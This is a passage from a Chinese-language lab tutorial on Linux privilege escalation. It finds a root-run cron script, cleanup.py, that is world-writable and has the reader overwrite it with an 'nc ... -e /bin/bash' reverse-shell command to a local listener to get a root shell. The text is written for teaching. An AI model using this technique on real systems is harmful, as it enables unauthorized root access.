 发现是一个定时清理目录的任务。

接下来我们再查看该脚本的权限:

```bash
ls -al /home/shiyanlou/cleanup.py
```

![图片描述](..\images\2021-01-23_39.jpg)

发现了吗？ `cleanup.py` 的文件权限设置存在风险：其他用户也拥有 `w` 权限，这意味着我们可以编辑修改 cleanup.py 的内容!

由于 cleanup.py 是以 root 权限运行的，因此我们可以利用的提权的方法非常多，下面我们列举两种方法。

#### 3.利用 cleanup.py 反弹 root 权限的 shell

修改 `cleanup.py` 脚本执行的命令为如下命令：

```bash
# 使用 nc 向本地 4444 端口反弹一个 shell
nc 127.0.0.1 4444 -e /bin/bash
```

![图片描述](..\images\2021-01-23_40.gif)
